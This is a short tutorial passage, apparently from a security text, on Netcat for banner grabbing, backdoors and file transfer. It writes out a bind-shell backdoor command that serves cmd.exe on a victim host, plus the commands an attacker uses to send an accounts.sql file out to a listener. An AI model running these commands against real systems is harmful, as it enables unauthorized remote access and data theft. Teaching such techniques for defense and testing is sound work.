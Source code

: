 ## NETCAT

One simple but effective [[tool]] for testing connectivity is Netcat (nc), available for both Windows and Linux. Netcat is a computer networking utility for reading and writing raw data over a network connection, and can be used for port scanning and fingerprinting. For example, the following command attempts to connect to the HTTP port on a server and return any banner by sending the "head" HTTP keyword: **(To check for if it's possible to open a network connection to a remote host over a given port#)** 

echo "head" | nc 10.1.0.1 -v 80

Netcat can also establish connections with remote machines. To configure Netcat as a backdoor, you first set up a listener on the victim system (IP: 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler:

nc -l -p 666 -e cmd.exe

The following command connects to the listener and grants access to the terminal:

nc 10.1.0.1 666

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

type accounts.sql | nc 10.1.0.192 6666

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

nc -l -p 6666 > accounts.sql

